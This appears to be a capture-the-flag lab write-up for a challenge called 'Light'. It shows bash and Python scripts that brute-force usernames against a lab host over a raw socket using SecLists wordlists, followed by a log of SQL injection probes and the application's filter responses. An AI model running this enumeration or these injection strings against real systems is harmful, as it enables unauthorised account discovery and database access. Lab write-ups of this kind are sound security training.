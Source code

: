 # Light

_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: alice. However this wasn't the admin username.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force. The following shows a bunch of input (first line) and output from the application (second line)

```sql
1)
' OR 1=1
"' LIMIT 30"

2) 
' OR 1=1;
Pause with no response

2) 
UNION 
Ahh there is a word in there I don't like :(

3)
SELECT
Ahh there is a word in there I don't like :(

4)
--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

5) 
' LIMIT 30 OR '1=1;
Error: near "LIMIT": syntax error

```
